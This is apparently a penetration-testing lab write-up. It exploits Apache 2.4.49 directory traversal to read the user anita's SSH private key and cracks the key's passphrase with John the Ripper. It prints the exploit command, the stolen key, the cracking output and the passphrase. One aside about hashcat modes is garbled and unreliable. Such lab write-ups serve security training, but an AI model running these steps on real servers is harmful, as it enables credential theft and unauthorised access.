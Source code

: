 This server is running a vulnerable version of apache (2.4.49)

This allows directory traversal and the exploit for this is available on exploit-db
>https://www.exploit-db.com/exploits/50383

This vulnerability allowed us to retrieve anita's ssh private key and gain access to the server via port 2222.

### Anita's ssh private key
```
./50383.sh targets.txt /home/anita/.ssh/id_ecdsa                                                                 Thu 28 Sep 2023 12:18:35 AM EDT
./50383.sh: 12: [[: not found
./50383.sh: 12: [[: not found
192.168.203.245
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAACmFlczI1Ni1jdHIAAAAGYmNyeXB0AAAAGAAAABAO+eRFhQ
13fn2kJ8qptynMAAAAEAAAAAEAAABoAAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlz
dHAyNTYAAABBBK+thAjaRTfNYtnThUoCv2Ns6FQtGtaJLBpLhyb74hSOp1pn0pm0rmNThM
fArBngFjl7RJYCOTqY5Mmid0sNJwAAAACw0HaBF7zp/0Kiunf161d9NFPIY2bdCayZsxnF
ulMdp1RxRcQuNoGPkjOnyXK/hj9lZ6vTGwLyZiFseXfRi8Dd93YsG0VmEOm3BWvvCv+26M
8eyPQgiBD4dPphmNWZ0vQJ6qnbZBWCmRPCpp2nmSaT3odbRaScEUT5VnkpxmqIQfT+p8AO
CAH+RLndklWU8DpYtB4cOJG/f9Jd7Xtwg3bi1rkRKsyp8yHbA+wsfc2yLWM=
-----END OPENSSH PRIVATE KEY-----
```

 1. First we need to crack the passphrase key used to generate the private key.
 ```
 ssh2john anitas_rsa > anitas_rsa.hash
```
2. Note that hashcat does not support ssh private keys cracking for mode $6\$ - SHA512
3. After running removing the filaname from the hash, we were able to crack the passphrase for the ssh key using johntheripper
```shell
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
fireball         (?)     
1g 0:00:03:39 DONE (2023-09-28 18:28) 0.004557g/s 18.66p/s 18.66c/s 18.66C/s fireball..oooooo
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
> The passphrase found is: **fireball**

![[Pasted image 20230928183235.png]]
